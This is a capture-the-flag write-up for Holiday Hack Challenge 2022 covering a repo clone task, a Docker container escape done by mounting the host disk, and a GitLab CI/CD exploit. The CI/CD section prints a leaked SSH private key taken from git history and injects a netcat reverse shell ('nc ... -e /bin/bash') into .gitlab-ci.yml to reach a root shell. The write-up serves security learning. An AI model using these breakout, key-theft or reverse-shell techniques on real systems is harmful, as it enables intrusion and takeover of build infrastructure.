 ```yaml
---
title: "Holiday Hack Challenge 2022: 2 - Recover the Elfen Ring"
date: 2022-12-29 08:00:00 +0800
categories:
  - "Problem Solving"
  - "Holiday Hack Challenge 2022"
tags: [dev]
image:
    path: /assets/img/holiday_hack_challenge_2022/holiday_hack_challenge_2022_banner.png
---
```

**SecDevOps and Supply Chain Attacks**

Identify malicious packages and then attack CI/CD processes to escape a container.

## Clone with a Difference

>Difficulty: 1/5
>
>Clone a code repository. Get hints for this challenge from Bow Ninecandle in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/783a12b31fd9115346d46f98b17b138926239c970b672753daf2d3badfb008ce.png)  

```bash
$ git clone git@haugfactory.com:asnowball/aws_scripts.git
Cloning into 'aws_scripts'...
The authenticity of host 'haugfactory.com (34.171.230.38)' can't be established.
ECDSA key fingerprint is SHA256:CqJXHictW5q0bjAZOknUyA2zzRgSEJLmdMo4nPj5Tmw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'haugfactory.com,34.171.230.38' (ECDSA) to the list of known hosts.
git@haugfactory.com: Permission denied (publickey).
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```

Found public repo at <https://haugfactory.com/orcadmin/aws_scripts>.

```bash
$ git clone https://haugfactory.com/orcadmin/aws_scripts
Cloning into 'aws_scripts'...
warning: redirecting to https://haugfactory.com/orcadmin/aws_scripts.git/
remote: Enumerating objects: 64, done.
remote: Total 64 (delta 0), reused 0 (delta 0), pack-reused 64
Unpacking objects: 100% (64/64), 23.83 KiB | 1.83 MiB/s, done.

$ cd aws_scripts && ls
README.md     container.py        ec2-instances.py  network.py     security.py
analytics.py  create_instance.py  iam.py            put_policy.py  send_ssm.py
compute.py    debug_instances.py  inventory.py      sample.json

$ tail -1 READMEmd
If you have run out of energy or time for your project, put a note at the top of the README saying that development has slowed down or stopped completely. Someone may choose to fork your project or volunteer to step in as a maintainer or owner, allowing your project to keep going. You can also make an explicit request for maintainers.

$ runtoanswer
Read that repo!

What's the last word in the README.md file for the aws_scripts repo?
> maintainers
Your answer: maintainers

Checking......
Your answer is correct!
```

## Prison Escape

>Difficulty: 3/5
>
>Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file `/home/jailer/.ssh/jail.key.priv`?

![image](/assets/img/holiday_hack_challenge_2022/f51e1d8d89aa8b157c10f430b9bf38a8dd2a59eeb5af7c6457027e8c91af94be.png)  

Observed the presence of `.dockerenv` file in `/`.

![image](/assets/img/holiday_hack_challenge_2022/7552d1302c53232df373f5c2f495ac6faf0a7bb375e8441e9727dad48b676ba6.png)  

Researched on docker breakout. Reference: <https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation>

Performed method described in `Mounting Disk - Poc1`.

Confirmed that root privileges can be obtained.

```bash
$ sudo su
# whoami
root
```

List the partition tables for the specified devices.

```bash
# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

Create a mount point.

```bash
# mkdir /mnt/breakout
```

Mount disk to mount point.

```bash
# mount /dev/vda /mnt/breakout
```

Browse directories.

```bash
# cd /mnt/breakout/home && ls
jailer
```

Find flag.

```bash
# cd .ssh
# cat jail.key.priv
```

Hex string found: `082bb339ec19de4935867`

![image](/assets/img/holiday_hack_challenge_2022/26322faf076216bec9b87dc2e7053527bfe2d5b1836934ff19f9a07b50e12b06.png)  

## Jolly CI/CD

>Difficulty: 5/5
>
>Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/995469c9d24db62543077846c99d25fcd2c542b03eee2cd0c9bfcc156fa6ecc2.png)  

Performed the following steps to obtain openssh private key for impersonation purpose.

```bash
$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git log
--Redacted--
whoops
commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
--Redacted--

$ git show abdea0ebb21b156c01f7533cea3b895c26198c98
--Redacted--
+-----BEGIN OPENSSH PRIVATE KEY-----
+b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
+QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
+9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
+AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
+PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
+-----END OPENSSH PRIVATE KEY-----
--Redacted--
```

Thought through the solution and craft command list.

```bash
$ mkdir .ssh

$ cd .ssh

$ touch id_ed25519

$ echo -e '-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU59wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==\n-----END OPENSSH PRIVATE KEY-----' > id_ed25519

$ chmod 400 id_ed25519

$ cd ..

$ eval "$(ssh-agent -s)"

$ ssh-add

Test connection:
$ ssh -T git@gitlab.flag.net.internal

$ git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git config --global user.email “sporx@kringlecon.com”

$ git config --global user.name “knee-oh”

$ nano .gitlab-ci.yml

Replace the script in .gitlab-ci.yml with the following command:
nc 172.18.0.99 8888 -e /bin/bash

$ git commit -am “payload”

$ git push && nc -lvp 8888

ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal

cd /

ls -la

cat flag.txt
```

Reverse shell established.

![image](/assets/img/holiday_hack_challenge_2022/12b087993f68131788566d4c473969a5bb7aa830f92f1f67adffafd10fb2993a.png)  

Obtained a shell via SSH.

![image](/assets/img/holiday_hack_challenge_2022/df51a3c91f09b19e34151388dbb33c665faba2ad4e3d306d5a1bfdfe11cc8c84.png)  

Found `flag.txt`.

![image](/assets/img/holiday_hack_challenge_2022/94c8c200ccbc83474d22a5158c7ddda79c860e32ecf483043900f80470623e4a.png)  

Show `flag.txt` contents.

ANS: `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

![image](/assets/img/holiday_hack_challenge_2022/72826abcbba96d2ea0384d8575b861c92bf1f3a0b42038805709403fa643bc2e.png)  

Pondering further: Is the intended solution SSH? To use rsync requires knowledge of the source and destination. How to determine where `flag.txt` is stored without browsing?

Original script contents.

```
script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```